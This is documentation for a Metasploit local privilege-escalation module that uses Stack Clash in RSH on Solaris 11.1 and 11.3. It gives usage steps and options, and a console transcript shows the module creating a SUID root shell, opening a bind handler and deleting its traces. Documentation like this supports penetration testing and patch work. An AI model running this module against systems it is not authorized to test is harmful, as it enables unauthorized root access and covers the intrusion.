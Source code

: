 ## Description

  This module exploits a vulnerability in RSH on unpatched Solaris
  systems which allows users to gain root privileges.

  The stack guard page on unpatched Solaris systems is of
  insufficient size to prevent collisions between the stack
  and heap memory, aka Stack Clash.

  This module uploads and executes Qualys' Solaris_rsh.c exploit,
  which exploits a vulnerability in RSH to bypass the stack guard
  page to write to the stack and create a SUID root shell.

  This module has offsets for Solaris versions 11.1 (x86) and
  Solaris 11.3 (x86).

  Exploitation will usually complete within a few minutes using
  the default number of worker threads (10). Occasionally,
  exploitation will fail. If the target system is vulnerable,
  usually re-running the exploit will be successful.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 11.1 (x86)
  * Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/rsh_stack_clash_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`.

  **RSH_PATH**

  Path to rsh executable. (default: `/usr/bin/rsh`)

  **WORKERS**

  Number of workers. (default: `10`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf5 > use exploit/solaris/local/rsh_stack_clash_priv_esc
  msf5 exploit(solaris/local/rsh_stack_clash_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/rsh_stack_clash_priv_esc) > set rhost 172.16.191.221
  rhost => 172.16.191.221
  msf5 exploit(solaris/local/rsh_stack_clash_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Using target: Solaris 11.3
  [*] Writing '/tmp/.2yZgv2XkEj/.KJqSwhpguh.c' (10297 bytes) ...
  [*] Symlinking /tmp/.2yZgv2XkEj/.KJqSwhpguh to /tmp/.2yZgv2XkEj/ROOT
  [*] Creating suid root shell. This may take a while...
  [*] Completed in 324.21s
  [+] suid root shell created: /tmp/.2yZgv2XkEj/ROOT
  [*] Writing '/tmp/.2yZgv2XkEj/.bWjzWVllCB' (109 bytes) ...
  [*] Executing payload...
  [*] Started bind TCP handler against 172.16.191.221:4444
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh.c
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh
  [!] Tried to delete /tmp/.2yZgv2XkEj/ROOT, unknown result
  [+] Deleted /tmp/.2yZgv2XkEj/.bWjzWVllCB
  [+] Deleted /tmp/.2yZgv2XkEj

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015

  ```

